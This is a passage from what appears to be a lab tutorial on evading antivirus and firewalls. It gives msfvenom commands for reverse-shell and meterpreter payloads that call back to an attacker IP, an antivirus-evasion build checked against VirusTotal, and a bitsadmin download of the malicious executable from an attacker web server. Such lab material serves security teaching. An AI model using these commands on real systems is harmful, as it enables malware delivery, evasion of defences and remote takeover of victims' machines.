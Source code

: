- Generate a new payload using the modified template:
    ```bash
    msfvenom -p windows/shell_reverse_tcp Lhost=10.10.1.13 Lport=444 -x evasion.exe -f exe > bypass.exe
    ```
- Switch back to the browser, upload the bypass.exe file to VirusTotal, and confirm the upload.
- Observe the updated results, indicating reduced antivirus detections.

---

#### Bypass Firewall through Windows BITSAdmin

- Utilizing the Background Intelligent Transfer Service (BITS) and BITSAdmin tool, here we are demonstrates the bypassing of firewalls to transfer a malicious file into the target Windows machine. The goal is to showcase the potential security implications of this technique.

##### Steps

- On victim machine, open Control Panel, navigate to System and Security, and select Windows Defender Firewall.

- Customize firewall settings by turning on Windows Defender Firewall for both private and public network settings.

- Switch to the attacker machine.

- Generate a payload using msfvenom:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp Lhost=10.10.1.13 Lport=444 -f exe > /home/attacker/Exploit.exe
   ```

- Create a shared folder, set permissions, and copy the malicious file:
   ```bash
   mkdir /var/www/html/share
   chmod -R 755 /var/www/html/share
   chown -R www-data:www-data /var/www/html/share
   cp /home/attacker/Exploit.exe /var/www/html/share
   ```

- Start the Apache service:
   ```bash
   service apache2 start
   ```

- Switch to the victim machine.

- Launch PowerShell and use BITSAdmin to transfer the malicious file:
    ```powershell
    bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe C:\Exploit.exe
    ```

- Confirm the successful transfer in File Explorer on the C: drive.

- The malicious file is now accessible for potential security exploits.

- Here, we demonstrated bypassing of firewalls through Windows BITSAdmin.

